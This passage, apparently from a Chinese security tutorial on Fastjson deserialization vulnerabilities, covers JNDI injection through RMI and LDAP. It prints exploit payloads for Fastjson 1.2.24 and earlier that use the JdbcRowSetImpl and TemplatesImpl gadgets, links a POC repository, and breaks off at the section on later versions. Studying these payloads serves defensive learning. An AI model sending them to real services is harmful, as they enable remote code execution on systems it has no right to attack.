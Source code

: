 LDAP目录和RMI注册表的区别在于是前者是目录服务，并允许分配存储对象的属性。  
#### CORBA公共对象请求代理体系结构  
### Fastjson利用:  
  
com.sun.rowset.JdbcRowSetImpl  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT3pJteFFlGYIIG0UpnmO8tuy4XfibAarbhEAWo5LmbBG3apibZfCMJsYSUelRBodGMpHFxnGUGUf36w/640?wx_fmt=png&from=appmsg "")  
  
来上一张经典图片,第一次了解这个漏洞时候连原理都不懂还是硬背的,哈哈  
### 作者：AxisX链接：https://www.jianshu.com/p/776c56fc3a80来源：简书著作权归作者所有。商业转载请联系作者获得授权，非商业转载请注明出处。  
  
下面就是Fastjson各种版本的poc了  
  
历史漏洞：https://avd.aliyun.com/search?q=fastjson  
  
利用POC：https://github.com/kezibei/fastjson_payload  
### FastJson <= 1.2.24  
  
JDNI也支持ldap注入  

```
String payload = &#34;{\r\n&#34;
		+ &#34; \&#34;a\&#34;: {\r\n&#34;
		+ &#34; \&#34;@type\&#34;: \&#34;com.sun.rowset.JdbcRowSetImpl\&#34;, \r\n&#34;
		+ &#34; \&#34;dataSourceName\&#34;: \&#34;rmi://127.0.0.1:1089/Object\&#34;, \r\n&#34;
		+ &#34; \&#34;autoCommit\&#34;: true\r\n&#34;
		+ &#34; }\r\n&#34;
		+ &#34;}&#34;;
```


```
{    
&#34;@type&#34;: &#34;com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl&#34;,    
&#34;_bytecodes&#34;: [&#34;rmi://127.0.0.1:1089/Object&#34;],    
&#34;_name&#34;: &#34;test&#34;,    
&#34;_tfactory&#34;: {},    
&#34;_outputProperties&#34;: {},
}
```

### Fastjson1.2.25-1.2.41版本  
  
发现
```
1.2.25
```

  
版本增加了黑名单限制，
```
autoType
```

  